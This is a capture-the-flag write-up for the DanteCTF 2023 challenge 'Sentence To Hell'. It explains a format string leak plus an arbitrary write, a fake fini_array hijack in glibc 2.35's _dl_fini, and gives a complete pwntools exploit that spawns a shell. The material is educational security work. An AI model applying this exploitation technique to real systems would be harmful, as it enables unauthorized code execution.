 ## Sentence To Hell

was a pwn challenge from **DanteCTF 2023**.

I did not have time to participate to **DanteCTF** as I was doing justCTF instead...

anyway I did this one quickly, which is a classic type of challenge where you can write a value to a chosen address to try to get code execution.

### 1 - The program

the program is small , so the reverse is quick 😋, here is the `main` (and only) function:

```c
int main(int argc, const char **argv, const char **envp)
{
  __int64 *target_addr; // [rsp+8h] [rbp-18h] BYREF
  __int64 value; // [rsp+10h] [rbp-10h] BYREF
  unsigned __int64 canary; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("Please, tell me your name: ");
  fgets(your_name, 12, stdin);
  your_name[strcspn(your_name, "\n")] = 0;
  printf("Hi, ");
  printf(your_name);        // format string vuln, used to 
  puts(" give me a soul you want to send to hell: ");
  __isoc99_scanf("%lu", &value);
  getchar();
  puts("and in which circle you want to put him/her: ");
  __isoc99_scanf("%lu", &target_addr);
  getchar();
  *target_addr = value;      // write choosen value to target address
  puts("Done, bye!");
  return 0;
}
```

let's `checksec` the binary to see protection in place:

![checksec](./pics/checksec.png)

Ok.. so, the author of the challenge gave us a format string vulnerability, the line `printf(your_name)` which will be useful to leak various addresses,  like stack, libc, program base, etc...

then we can choose an address and a value to write. and the program return.

pretty classic.

**Useful to note:**  Here the library used is `libc 2.35  (Ubuntu GLIBC 2.35-0ubuntu3.1)` which is the libc used by `Ubuntu 22.04` distribution.

### 2 - Achieving code execution.

Well there are various way to achieve code execution, I found at least 3 different one, but maybe there are many more:

1. Leaking stack address with the format string vuln, and overwriting main return address on stack.
2. Leaking libc address with the format string vuln, and overwriting `strlen` libc GOT entry that will be called by `puts()`
3. leaking ld.so address with the format string vuln, and creating a fake `fini_array` table entry, that will be executed by `_dl_fini` called by `run_exit_handlers()` at program exits..

that's not so bad, for my exploit I will use a mix of option 1 and 3.

I have tried a one gadget single shot via option 1 or 2, but none of the one gadgets works..so I decide to go another way.

First I will overwrite main return address on stack, to return to main. I will do this two times, because the limited 11 chars input in `your_name` will not allow me to leak all the values I want with the format string in one turn.

* First round, I will leak stack and libc address.

* Second round, I will leak exe base and `rtld_global` address.

* Third round , I will create a fake `fini_array` table  in `your_name`variable, and will overwrite an entry in ld.so to points on it.  That fake `fini_array`table will point to a one gadget that works at this point, and we will get code execution.

to achieve code execution in the third round, let's have a look at  `_dl_fini` function in libc 2.35  file: `elf/dl-fini.c` (line 123)

```c
         /* Is there a destructor function?  */
          if (l->l_info[DT_FINI_ARRAY] != NULL || (ELF_INITFINI && l->l_info[DT_FINI] != NULL))
            {
              /* When debugging print a message first.  */
              if (__builtin_expect (GLRO(dl_debug_mask) & DL_DEBUG_IMPCALLS, 0))
                _dl_debug_printf ("\ncalling fini: %s [%lu]\n\n", DSO_FILENAME (l->l_name), ns);

              /* First see whether an array is given.  */
              if (l->l_info[DT_FINI_ARRAY] != NULL)
              {
                ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
                unsigned int i = (l->l_info[DT_FINI_ARRAYSZ]->d_un.d_val / sizeof (ElfW(Addr)));
                while (i-- > 0)
                  ((fini_t) array[i]) ();
              }
```

we overwrite `l->l_info[DT_FINI_ARRAY]` pointer (which is 0x13b0 bytes after `_rtld_global` in `ld.so`) with the address 

of our `your_name`variable in .bss,  in this variable we will forge a `fini_array` entry.

you can see that the array pointer is calculated by adding `l->l_addr`to `l->l_info[DT_FINI_ARRAY]->d_un.d_ptr` which is the second pointer of the `fini_array` entry.

```c
ElfW(Addr) *array = (ElfW(Addr) *) (l->l_addr + l->l_info[DT_FINI_ARRAY]->d_un.d_ptr);
```

then this entry is called by:

```c
((fini_t) array[i]) ();
```

the `d_un` structure is declared like this:

```c
ptype l->l_info[DT_FINI_ARRAY]->d_un
type = union {
    Elf64_Xword d_val;				// address of function that will be called, we put our onegadget here
    Elf64_Addr d_ptr;				// offset from l->l_addr of our structure
}
```

So in our `your_name` variable, we put our onegadget and 0x4050, which is the offset to the  ̀your_name` variable..

you can check this mechanism under gdb, by putting a breakpoint like this:  `b *_dl_fini+445`

### 3 - The Exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

exe = ELF('./sentence_patched')
libc = ELF('./libc.so.6')

host, port = "challs.dantectf.it", "31531"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

# leak stack & libc address
sla('name: \n', '%p.%11$p.')
stack = int(rcu('Hi, ', '.'),16)
logleak('stack',stack)
libc.address = int(p.recvuntil('.',drop=True),16) - 0x29d90
logbase()
onegadgets = one_gadget('libc.so.6', libc.address)
# ret2main
target = stack+0x2148	# libcmain return address on stack
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# now we leak exe base & rltd_global address
target = stack+0x2148
sla('name: \n', '%13$p.%21$p')
exe.address = int(rcu('Hi, ', '.'),16)-0x1229
logleak('exe base',exe.address)
rtld = int(p.recvuntil(' ',drop=True),16)
logleak('rtld',rtld)
# ret2main again
sla('hell: \n', str(libc.address+0x29d4c))
sla('her: \n', str(target))

# write 
# makes l->l_info[DT_FINI_ARRAY] point to your_name variable on stack.. which will contains offset to a fake fini_array table (itself) which entry points to a onegadget
target = rtld+0x13b0
sla('name: \n', p64(onegadgets[8])+p16(0x4050)+b'\x00' )
sla('hell: \n', str(exe.address+0x4050))
sla('her: \n', str(target))

p.interactive()
```

you like to see fancy chars moving on screen?

![gotshell](/BIGRAID/backup/work.challenges/work/mon.github/write-ups/DanteCTF.2023/pwn/Sentence.To.Hell/pics/gotshell.gif)

so it's finished, see you in the next world. *nobodyisnobody still learning..*